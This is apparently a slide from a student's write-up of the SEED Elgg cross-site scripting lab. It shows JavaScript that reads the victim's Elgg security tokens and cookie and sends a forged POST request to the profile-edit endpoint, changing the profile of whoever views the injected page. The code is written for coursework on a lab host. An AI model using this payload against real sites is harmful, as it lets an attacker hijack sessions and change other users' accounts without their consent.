

var Ajax=null;
var token="&__elgg_token";
var ts="&__elgg_ts";
ts += "=" + elgg.security.token.__elgg_ts;token += "=" + elgg.security.token.__elgg_token;

// Construct the header information for the HTTP request	Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Construct the content. The format of the content can be learned // from LiveHTTPHeaders.
var content="name=..&description=...&guid=";

// You need to fill in the details.	// Send the HTTP POST request.
content += "&guid=" + elgg.page_owner["guid"];
content += "&name=" + elgg.page_owner["name"];
window.alert(content);	Ajax.send(content);
With help from the lab’s code skeleton
And a lot and lot of debugging

# JavaScript Code for Faking Headers